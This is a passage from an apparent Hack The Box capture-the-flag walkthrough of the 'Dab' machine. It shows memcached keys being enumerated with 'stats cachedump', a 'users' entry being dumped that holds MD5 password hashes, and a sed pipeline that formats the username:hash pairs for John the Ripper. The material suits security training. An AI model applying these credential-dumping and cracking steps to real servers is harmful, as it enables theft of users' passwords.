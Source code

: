 And, using the command `stats cachedump <slab_id> 0`, I can enumerate all the keys stored in the slab.

_Slab 16_

```
# ./memcache.sh stats cachedump 16 0
ITEM stock [2807 b; 1544660622 s]
END
```

_Slab 26_

```
# ./memcache.sh stats cachedump 26 0
ITEM users [24625 b; 1544667379 s]
END
```

The `users` key caught my eye immediately.

<a class="image-popup">
![678f22ca.png](/assets/images/posts/dab-htb-walkthrough/678f22ca.png)
</a>

The response was a hash map of username as key and the MD5 hash of the password as value. Cool, now I can transform the output as an input compatible for John the Ripper cracking.

```
./memcache.sh get users | sed '2!d' > users.txt && sed -e 's/&#34;//g' -e 's/[{}]//g' -e 's/ //g' -e 's/,/\n/g' users.txt > hashes.txt
```

The transformed output should look like this.

```
quinton_dach:17906b445a05dc42f78ae86a92a57bbd
jackie.abbott:c6ab361604c4691f78958d6289910d21
isidro:e4a4c90483d2ef61de42af1f044087f3
roy:afbde995441e19497fe0695e9c539266
colleen:d3792794c3143f7e04fd57dc8b085cd4
harrison.hessel:bc5f9b43a0336253ff947a4f8dbdb74f
asa.christiansen:d7505316e9a10fc113126f808663b5a4
jessie:71f08b45555acc5259bcefa3af63f4e1
milton_hintz:8f61be2ebfc66a5f2496bbf849c89b84
demario_homenick:2c22da161f085a9aba62b9bbedbd4ca7
...
```


[1]: https://www.hackthebox.eu/home/machines/profile/150
[2]: https://www.hackthebox.eu/home/users/profile/9267
[3]: https://www.hackthebox.eu/